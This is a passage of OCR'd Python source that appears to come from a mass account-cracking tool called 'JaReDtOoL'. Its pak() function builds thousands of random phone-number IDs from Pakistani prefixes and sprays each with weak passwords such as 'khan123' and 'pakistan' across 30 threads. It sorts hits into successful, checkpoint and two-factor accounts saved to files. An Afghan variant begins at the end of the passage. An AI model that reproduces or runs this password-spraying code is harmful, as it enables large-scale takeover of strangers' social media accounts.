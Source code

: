                                 print('\033[1;97m [+]-------------------------------------------------------')
                                print(' [+] THE PROCESS HAS COMPLETED')
                                print(' [+] \033[1;32m [+] Total OK/CP/2F: '+str(len(oks))+'/'+str(len(cps))+'/'+str(len(twf)))
                                print('\033[1;97m [+]-------------------------------------------------------')
                                input(' [+] PRESS ENTER TO BACK ')
                                os.system('python JaReDtOoL.py')
                                menu() 
                                
 
def pak():
                user=[]
                global lim
                clear()
                print('\033[1;31m [+] Code example: 92302,92315,92335,92345')
                code = input('\033[1;37m [+] put code: ')
                try:
                        limit = int(input('\033[1;31m [+] example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                lim=limit
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                
                with tred(max_workers=30) as AWM:     
                        clear()
                        tl = str(len(user))
                        print(' \033[1;32m [+] Total ids : \033[1;32m'+tl)
                        print(f'\033[1;32m [+] CLONING STARTED')
                        print(f'\033[1;32m [+] ON/OFF YOUR MOBILE DATA BEFORE USE ')
                        print('\033[1;97m [+]-------------------------------------------------------')
                        print("\033[1;32m [+] OK IDS SAVE ✓ JARED-OK.txt")
                        print("\033[1;32m [+] CP IDS SAVE × JARED-CP.txt")
                        print("\033[1;32m [+]       WE ARE FILIPINO")
                        print('\033[1;97m [+]-------------------------------------------------------')
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan','khan1122','khan12345','khan123','peshawar','pakistan']
                                AWM.submit(rndm2,ids,passlist)
                print('\033[1;37m')
                print('\033[1;97m [+]-------------------------------------------------------')
                print(' [+] THE PROCESS HAS COMPLETED')
                print(' [+]\033[1;32m [+] Total OK/CP/2F: '+str(len(oks))+'/'+str(len(cps))+'/'+str(len(twf)))
                print('\033[1;97m [+]-------------------------------------------------------')
                input(' [+] PRESS ENTER TO BACK ')
                os.system('python JaReDtOoL.py')
                menu() 
 
def afgan():
 
                user=[]
                global lim
                clear()
                print('\033[1;97m [+] \033[1;31mCodes: 9370, 9377, 9378, 9379, 9374, 9372, 9376')
                code = input('\033[1;37m [+] put code: ')
                try:
                        limit = int(input('\033[1;97m [+] \033[1;31mexample: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                lim=limit
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                